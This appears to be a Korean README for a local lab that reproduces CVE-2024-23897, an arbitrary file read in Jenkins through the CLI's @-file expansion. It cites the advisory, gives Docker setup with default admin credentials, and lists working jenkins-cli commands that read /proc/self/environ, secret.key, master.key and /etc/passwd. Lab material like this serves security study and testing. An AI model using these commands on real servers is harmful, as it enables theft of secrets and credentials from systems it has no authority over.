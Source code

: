 # CLI를 통한 Jenkins 임의 파일 읽기(CVE-2024-23897)

[중국어버전(Chinese version)](README.zh-cn.md)

Jenkins는 오픈소스 자동화 서버입니다.

Jenkins는 CLI 명령을 처리할 때 args4j 라이브러리를 사용하여 Jenkins 컨트롤러에서 명령 인수와 옵션을 구문 분석합니다. 이 명령 구문 분석기는 인수의 @ 문자 뒤에 오는 파일 경로를 파일 내용으로 대체하는 기능(expandAtFiles)을 가지고 있으며, 이를 통해 공격자는 Jenkins 서버에서 임의 파일을 읽을 수 있습니다.

이 취약점은 Jenkins 2.441 이전 버전에 영향을 미칩니다.


참고:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 취약점 발생 환경

Jenkins 서버 2.441을 시작하려면 다음 명령을 실행하세요.

```
docker compose up -d
```

서버가 시작된 후 http://your-ip:8080/ 을 통해 Jenkins 서버에 액세스할 수 있습니다. 기본 관리자의 사용자 이름과 비밀번호는`admin`과 `vulhub` 입니다.


## 취약점 공격(익스플로잇)

먼저 http://localhost:8080/jnlpJars/jenkins-cli.jar 을 통해 명령줄 클라이언트 jenkins-cli.jar 를 다운로드해야 합니다.

/proc/self/environ 파일을 읽어 Jenkins 기본 디렉터리인 JENKINS_HOME=/var/jenkins_home 을 가져옵니다.

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

(사진1)


이 명령을 사용하면 secrets.key 또는 master.key와 같은 민감한 파일을 익명으로 검색할 수 있습니다(명령줄에서 오류가 발생하면 파일의 첫 번째 줄만 읽을 수 있습니다).

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

(사진2)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

(사진3)

"익명 읽기 액세스 허용"이 켜져 있으므로 전체 콘텐츠도 읽을 수 있습니다. 파일:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
